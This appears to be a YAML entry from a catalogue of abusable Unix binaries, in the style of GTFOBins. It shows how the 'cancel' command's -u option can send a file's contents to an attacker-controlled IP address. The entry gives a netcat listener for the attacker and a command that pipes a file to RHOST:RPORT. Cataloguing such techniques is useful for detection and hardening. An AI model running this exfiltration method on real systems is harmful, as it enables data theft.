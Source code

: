 ```yaml
---
description: |
  `cancel` -u parameter can be used to transfer file contents to an attacker-controlled IP address.
functions:
  file-upload:
    - description: Send contents of a file to a TCP port. Run `nc -nlvp $RPORT > "file to save"` on the attacker system to capture the contents.
      code: |
        RHOST=attacker_ip
        RPORT=attacker_port
        LFILE=file_to_send
        cancel -u "$(cat $LFILE)" -h $RHOST:$RPORT
---
```


